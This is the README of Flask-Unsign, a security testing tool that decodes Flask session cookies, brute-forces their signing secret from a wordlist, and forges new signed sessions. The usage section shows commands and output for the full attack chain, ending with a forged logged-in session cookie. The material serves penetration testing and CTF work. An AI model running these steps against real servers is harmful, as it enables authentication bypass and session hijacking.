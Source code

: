 # Flask Unsign
[![Build Status](https://travis-ci.org/Paradoxis/Flask-Unsign.svg?branch=master)](https://travis-ci.org/Paradoxis/Flask-Unsign)
[![PyPI version](https://badge.fury.io/py/flask-unsign.svg)](https://badge.fury.io/py/flask-unsign)
[![codecov](https://codecov.io/gh/Paradoxis/Flask-Unsign/branch/master/graph/badge.svg)](https://codecov.io/gh/Paradoxis/Flask-Unsign)

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask  application by guessing secret keys.
For the standalone wordlist component, please visit the [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist) repository.

## Installation
To install the application, simply use pip:

```
$ pip install flask-unsign[wordlist]
```

If you only want to install the core code, omit the `[wordlist]` suffix:

``` 
$ pip install flask-unsign
```

To install the tool for development purposes, run the following command (after downloading a copy):

```
$ pip install -e .[test]
```

## Usage

To get an overview of all possible options, simply call flask-unsign without 
any arguments like so:

``` 
$ flask-unsign
```

### Obtaining & Decoding Session Cookies
Due to the fact that Flask cookies are **signed** and **not encrypted**, it's 
possible to locally decode the session data. For this, you can use the `--decode` 
argument.

Session cookies can be obtained by inspecting your HTTP requests using a proxy 
like  Burp Proxy, using your browser's network inspector or using a browser 
extension to view/change your cookies. By default, Flask uses the session name
`"session"`. 

```
$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
{'logged_in': False}
```

You can also use Flask-Unsign's automatic session grabbing functionality by 
passing the `--server` argument, instead of the `--cookie` argument. *Do note 
however, **that not all web pages might return a session**, so be sure to pass an
url which does.*

``` 
$ flask-unsign --decode --server 'https://www.example.com/login'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8
{'logged_in': False}
```

### Unsigning (Brute Forcing Secret Keys)
After obtaining a sample session cookie, you'll be able to attempt to brute-force 
the server's secret key. If you're lucky, this might be set to something easy to 
guess, or if it's been found online, it might be in one of your wordlists. For 
this, you can use the `--unsign` argument.

``` 
$ flask-unsign --unsign --cookie < cookie.txt
[*] Session decodes to: {'logged_in': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 351 attempts
'CHANGEME'
```

### Signing (Session Manipulation)
Once you've obtained the server's secret key, you'll be able to craft your own 
custom session data. For this, you can use the `--sign` argument.

``` 
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
``` 

## Troubleshooting

* **I found a secret key, but my crafted sessions don't work!**
    * It might be possible that your target server uses an older version of 
      [itsdangerous](https://github.com/pallets/itsdangerous). Due to 
      [an issue](https://github.com/pallets/itsdangerous/issues/46) with timed 
      sessions, the timestamp generation algorithm was changed. 
      To generate an older signature, try using the `--legacy` option.
* **My wordlist doesn't work**
    * Wordlists expect to be newline delimited 
      [python strings](https://docs.python.org/3/library/stdtypes.html#str) 
      (meaning you need to encapsulate them in quotes), this is so that 
      binary strings can easily be stored in a newline format. If you don't want 
      this, you can disable this feature by passing the `--no-literal-eval` 
      argument.


## How it works
If you're wondering how exactly this works, refer to my 
[blog post](https://blog.paradoxis.nl/) which explains this in great detail, 
including a guide on how to protect your own server from this attack.

## License
MIT License

Copyright (c) 2019 Luke Paris (Paradoxis)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
